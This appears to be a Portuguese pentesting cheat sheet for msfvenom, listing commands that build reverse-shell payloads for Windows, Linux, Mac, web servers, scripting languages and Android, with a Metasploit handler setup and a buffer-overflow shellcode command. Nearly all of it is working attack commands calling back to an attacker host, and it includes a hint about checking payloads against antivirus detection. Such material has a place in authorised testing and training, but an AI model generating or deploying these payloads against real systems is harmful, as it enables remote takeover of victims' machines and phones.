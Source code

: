 # MSFVENOM

O **msfvenom** é utilizado para criação de exploit.  
Teste os seus payloads através do site <https://www.virustotal.com>.  
*Cuidado pois ao enviar para o vírus total, a heurística pode ser atualizada nos antivírus.*

Verificar todos os payloads:

```bash
msfvenom --list payloads
```

Gerando payload para Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=443 -f exe > virus.exe
```

Gerando payload para Linux:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<SEU IP> LPORT=<SUA PORTA> -f elf > shell.elf
```

Gerando payload para Mac:

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Seu IP> LPORT=<Sua Porta> -f macho > shell.macho
```

Payload’s para servidores WEB

PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Seu IP> LPORT=<Sua Porta> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Seu IP> LPORT=<Sua Porta> -f asp > shell.asp
```

JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Seu IP> LPORT=<Sua Porta> -f raw > shell.jsp
```

WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Seu IP> LPORT=<Sua Porta> -f war > shell.war
```

Payload’s Adicionais

Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Seu IP> LPORT=<Sua Porta> -f raw > shell.py
```

Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Seu IP> LPORT=<Sua Porta> -f raw > shell.sh
```

Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Seu IP> LPORT=<Sua Porta> -f raw > shell.pl
```

Shellcode

Para todos os códigos de shell, consulte 'msfvenom --help-formatos' para obter informações sobre parâmetros válidos. O msfvenom produzirá um código que pode ser recortado e colado nessa linguagem para suas explorações.

Linux Based Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Windows Based Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Mac Based Shellcode

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Para receber a conexão do alvo será necessário que o msf esteja em execução:

```bash
msfconsole
```

```msf
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > exploit*
```

Criando um exploit para Windows para BoF:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.100 LPORT=443 -b "\x00\x0a\x0d\x20" EXITFUNC=thread -f python
```

**-p windows/shell_reverser_tcp** ==> Tipo do exploit.  
**LHOST** ==> IP de conexão reversa.  
**LPORT** ==> Porta de conexão reversa.  
**-b "\x00\x0a\x0d\x20"** ==> Bad caracteres ou caracteres inválidos.  
**-f python** ==> Linguagem que vai ser gerado o exploit.  
**EXITFUNC=thread** ==> Evita que a aplicação morra depois do exploit ser fechado.

Gerando payload binário para sistema Linux:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 -f elf > malicioso
```

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*

Gerando payload APK para Android:

```bash
msfvenom -p android/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 R > malicioso.apk
```

**R** ==> Salva em modo RAW.

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*
